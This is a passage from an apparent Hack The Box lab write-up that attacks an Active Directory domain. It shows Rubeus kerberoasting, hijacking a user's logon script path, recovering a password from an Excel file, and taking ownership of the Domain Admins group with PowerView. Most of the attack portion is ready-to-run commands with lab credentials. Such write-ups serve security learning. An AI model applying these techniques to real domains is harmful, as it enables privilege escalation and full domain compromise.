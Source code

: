 It looks like it worked.
![](https://i.imgur.com/egsmCip.png)

Let's kerberoast it using rubeus.
```
.\rubeus.exe kerberoast /creduser:object.local\smith /credpassword:Password123!
```
![](https://i.imgur.com/iuF7iwL.png)



We crack it and own maria you think right ? Jk lol lmao said htb. They actually set a script that executes maria's logon script regularly so maria doesn't really login but her script still gets executes. This made me lost so much time but it would be hard for them to develop that scenario so it's understandable.

![](https://i.imgur.com/EcjGShI.png)



#### Setting the logon script

We can set a logon script like below,
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $SecPassword)

cd C:\\Windows\\System32\\spool\\drivers\\color
echo 'whoami > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > foo.ps1

Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\foo.ps1'}
```


![](https://i.imgur.com/GxQRYNS.png)

After looking at maria's Desktop folder, there is an excel file named Engines.xls. Let's download it.
![](https://i.imgur.com/TMCZMjH.png)

And `Engines.xls` has the password for maria,
![](https://i.imgur.com/OQQPGAZ.png)


`maria:W3llcr4ft3d_4cls`

#### Abusing WriteOwner

We can change the ownership of "Domain Admins" group like below,
```
$SecPassword = ConvertTo-SecureString 'W3llcr4ft3d_4cls' -AsPlainText -Force;$Cred = New-Object System.Management.Automation.PSCredential('object.local\maria', $SecPassword)

Set-DomainObjectOwner -Credential $Cred -Identity "Domain Admins" -OwnerIdentity maria
```
